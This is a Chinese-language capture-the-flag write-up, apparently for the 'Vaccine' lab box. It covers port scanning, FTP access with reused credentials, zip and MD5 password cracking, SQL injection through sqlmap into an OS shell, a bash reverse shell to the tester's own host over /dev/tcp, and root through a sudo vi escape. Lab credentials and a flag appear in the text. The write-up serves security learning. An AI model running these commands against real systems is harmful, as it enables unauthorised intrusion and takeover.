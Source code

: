 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/OhaEhzZ37GqeMdtgNaosEA)

![](https://mmbiz.qpic.cn/mmbiz_jpg/eR1JusQTlickMsTDGx8RibkaToLmkC4CWzn9MAa3LYeArFFI0cQCNu84zyXWLEOHypFGGV71B40sa9HygSH8icIicw/640?wx_fmt=jpeg)

0x01 端口扫描
=========

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLnoKTvbrYOth1a5Mo2vPicaVn2jvYeBg6aHky87W2tqMcjNqYN8I3W3A/640?wx_fmt=png)

使用

```
nmap -sV -sS 10.10.10.46
```

执行端口扫描，并且显示版本信息和端口服务  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL87W8ljDcJ9bZQC3L5qrYPfTpXssiaZ1evvE1fWvTVfJKBsagrbJ1iaOA/640?wx_fmt=png)

发现目标主机开放了 21 端口 FTP 服务、22 端口 SSH 服务、80 端口 web 服务。  

我们可以优先通过 FTP 服务登录，然后可以对 web 服务提供渗透线索，因为登录的凭据是上一个靶场 Oopsie 获取到的，用于下一个靶场的使用（疏忽忘记写了）：在 / root/.config/filezilla 路径下的 filezilla.xml 配置文件，用户登录凭据是：ftpuser/mc@F1l3ZilL4

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLexDEwdvxHuVP0SVZ4GBHTuvLibd7x4IUMwqM9rJrH9UDgM9sFs2SzVg/640?wx_fmt=png)

我们使用 ls 查看当前目录下的文件，发现存在 backup.zip 这个类似备份的 zip 文件，我们 get 下来，解压后发现需要解压密码  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL2uTDX6zMNOAn7RkCbMASP5xUlTSqSiaEC8kN1jyIv916gsm4HaaibKsg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLbP3UDK4icyRXexibSAlwzphmlmzyXdtdmlS6gQY7CasKvHtbYtu3vc2g/640?wx_fmt=png)

可以使用 kali 的 john，也可以在 win 下使用 archpr 去爆破压缩包密码。  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLWhxeIDGbDslZymyeiaEIxibRib83wDYZXb6kKaMRZAD7Oezk92zDXCeqw/640?wx_fmt=png)

爆破出压缩包解压密码为 741852963，然后输入压缩包密码解压，发现有两个文件：index.php 和 style.css 文件，打开 index.php  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLk1iaxGUk00GXQ0gpU3rZlP9I1KyzJ5I3jCxrqPEZU2icV6PHlLnavuBQ/640?wx_fmt=png)

通过代码审计可以知道，里面有一个 web 登录的凭证，用户名 admin，密码 2cb42f8734ea607eefed3b70af13bbd3 是经过 MD5 算法进行加密，这时候可以使用在线的解密网站 somd5 解密，明文密码是：qwerty789

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLeFtnGQ9iav31lX0U7ic3ZAmqPkww6wz5D7M6fzZ6lh73FhM5bY9TUBNA/640?wx_fmt=png)

  

===

0x02 WEB 渗透  

==============

浏览器访问 10.10.10.46

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLODCiczmbUicHWzicaoq6iaSiaCaM8znDPicD5gaMMSlC8jNib0alFj5eJczibw/640?wx_fmt=png)

使用账号：admin, 密码 qwerty789 登录后台，发现有个搜索框  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLSvNiciaicJMgBibicO11jgric5SEic7XlcibPyvLhj0D8yyia3XRmONRNZgpOrA/640?wx_fmt=png)

我们随便输入一个 1, 搜索  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL52KPuFiaTA5S4j2USgCZiaCelReGsx1GkhQcOnAyNYSvt3gWRtSrz07g/640?wx_fmt=png)

然后发现 url 是 search=1，很快想到可以测试是否存在 SQL 注入漏洞  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLaVQY80Dp4PyYr0KpL7FBKuOaPV5gPnNdMNcIyoSibKoUS7jPow5ZmMQ/640?wx_fmt=png)

使用’ or 1=1 #有返回报错，可以试试使用 sqlmap 去注入。  

在搜索框随便写内容，然后点击搜索时候使用 burp 抓包，右键保存文件为 sql.txt

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLzgXHTaGz2uKz5VqI4W1LY2jHPBFcd8U1e7TVrLh0fOGOkPY1b3C7jg/640?wx_fmt=png)

然后使用 sql.txt 去跑 sqlmap  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLawXIQYy52M8uiakOxcibpN3yN5W2FciapmkKlJUrQw6m04R1pYt77RgoA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLjwrqNB7fqxTBUYfMZVoKsnsJHX9yibIibiaa3KVhj3Ou5RymbEAXQaHXg/640?wx_fmt=png)

发现确实存在 SQL 注入漏洞，且数据库为 postgresql 数据库，我们继续使用 - os—shell 获取到 shell  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLHw1Fjxh6SFUyhzhAG2ZvZ8LHKOL2eY2Iznet050kxc1ib3LUNcdjzyw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLIUnL7CeOa0OXqFUevjN7Nk0Un4vEz6Bc2IVa1icygiaFcuqngwdXLYzg/640?wx_fmt=png)

发现 shell 获取成功，使用 whoami 查看当前用户名  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL6Gf5DvAbRh5JoRD328KmPpoZWmlU4r3iaCBht8lribGjNhvVicdLcQuEg/640?wx_fmt=png)

当前用户名是 postgres，然后我们使用 bash -c 反弹 shell 到 kali  

输入：

```
bash -c 'bash -i >& /dev/tcp/10.10.16.9/1234 0>&1'
```

其中 10.10.16.9 是自己的 kali 的 IP，1234 是反弹的端口（随意写）。然后监听 1234 端口

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLxSEJV5ab7yJp0gu0ttj1C1cqBqQZeH7FVkn2dgdoNsS8CxrAt7AUMw/640?wx_fmt=png)

然后成功反弹 shell，切换到当前用户根目录，ls 查看，本身应该有个 user.txt 的。感觉靶场有问题，所以不予理会。  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLgY8vsx0JBeThv9CczYbCBp1PHmcFAcdCUg6wcJHyKvicJVUshB0B0BQ/640?wx_fmt=png)

  

===

0x03 提升权限  

============

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLUNLf3W6sJ5VNffqUB4PibHNP81bvB3odTYXvX16oLSUjZxaaxNJIytQ/640?wx_fmt=png)

在 var/www/html / 路径下，发现有个 dashboard.php 文件，cat 一下试试  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLK2gaQG1tl85zy3Plcjt4IlU8via9RkK2wxLVHyj1chEKNJFv3Gst6Cw/640?wx_fmt=png)

通过代码审计可知有个数据库连接配置，显示用户名是 postgres，密码是 P@s5w0rd!  

我们现在需要把 shell 升级为 TTY， tty 命令用于显示终端机连接标准输入设备的文件名称

```
SHELL=/bin/bash script -q /dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzL6iadEGslJFQmn6KD5AEH8XqNGrpoDgFAza62HFUIia2zqXDWjVngWjOw/640?wx_fmt=png)

使用 sudo -l 查看自己当前的权限  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLxRmFXIkoDvmreSoUDPIPic38kufpUvc3s4lrvyicjBBLql0M2jI97lYw/640?wx_fmt=png)

发现最下面有个用户可以使用 VI 编辑 / etc/postgresql/11/main/pg_hba.conf 配置文件，利用它来获得一个根 shell 并访问 root.txt。  

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLQ7IwPHWxk0eFoGMicKmVdHicvXAV1fibF8SVyWCa0ZCicUicrSnTT6QwsQg/640?wx_fmt=png)

进入 vi 之后打字会重叠，所以直接输入:!/bin/bash 就可以了  

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLDfL11ws98nRqBqJdgxZJBKiaWuC1EGTl5yIVQpaEg8cDKWmw8ytL3MA/640?wx_fmt=png)

进入 / root 目录下，查看 root.txt 可以获得 root 的 flag：  

dd6e058e814260bc70e9bbdef2715849

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickgfbiaibgelBzOJ0q5OUkFzLv8xtoiaxBH93bEtZicM7NCOxzOib2hWbspa6kdicJIIzibfORb3I2tW9Jmw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucCjv9me2lz9aUeUY91fHaIhIbkc2J43Tickxbaiaqe2MANKPWZfK8FfVCu5BJpgR7Pofgs7DCYkL6c6g/640?wx_fmt=png)

  

  

END

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7IHABFmuMlWQkSSzOMicicfBLfsdIjkOnDvssu6Znx4TTPsH8yZZNZ17hSbD95ww43fs5OFEppRTWg/640?wx_fmt=gif)

●[轻轻的来 - iptables 详解](http://mp.weixin.qq.com/s?__biz=MzkwNzE5ODAwOQ==&mid=2247484685&idx=1&sn=5b12c7365ac2c12cca2177bfa02cecfe&chksm=c0ddae5bf7aa274d85dff048ea639d0f27ba838f7364a41089d8bdfea3cec9ad8c6d4d00d84a&scene=21#wechat_redirect)

●[反序列化命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzkwNzE5ODAwOQ==&mid=2247484673&idx=1&sn=d515a96b358bff8a67b525e458a9c3db&chksm=c0ddae57f7aa274157ee1006c6110506ac83029b523958e7bcd9197325dfa1f39d2dd4a39c48&scene=21#wechat_redirect)

●[内核提权 CVE-2021-3493 漏洞复现](http://mp.weixin.qq.com/s?__biz=MzkwNzE5ODAwOQ==&mid=2247484656&idx=1&sn=5ffc6ccde46b5d5a904e49cea17f2897&chksm=c0ddafa6f7aa26b001f61322b499752d239645895add94a719a4c2c11edc6d2ae876e8a8d814&scene=21#wechat_redirect)

●[一款内网自动化横向工具：InScan 开源扫描器](http://mp.weixin.qq.com/s?__biz=MzkwNzE5ODAwOQ==&mid=2247484545&idx=1&sn=f181bae594be7ac09dd6b50c173094cd&chksm=c0ddafd7f7aa26c1f6de6b2303d1f3be1c2989aa99c0aef9c97cb16d87827295bc15fef54915&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_jpg/eR1JusQTlickMsTDGx8RibkaToLmkC4CWz8zNkHLeL7JtdiaXP0mar0MRibpGCB7SO4CibSV0HIosb1YU0lfK6khDbg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickMsTDGx8RibkaToLmkC4CWzQSKWgFGMnMHsYOL5D02RBZlSW7dScaicHTUn7c4fuM6OjT3DMicwQqCQ/640?wx_fmt=png)

微信搜一搜

![](https://mmbiz.qpic.cn/mmbiz_png/eR1JusQTlickMsTDGx8RibkaToLmkC4CWzZCg3tG3oeEoqRppB2aTTItcvZeb91phQIOgkgconYP531tNhjzxGuQ/640?wx_fmt=png)

悬剑武器库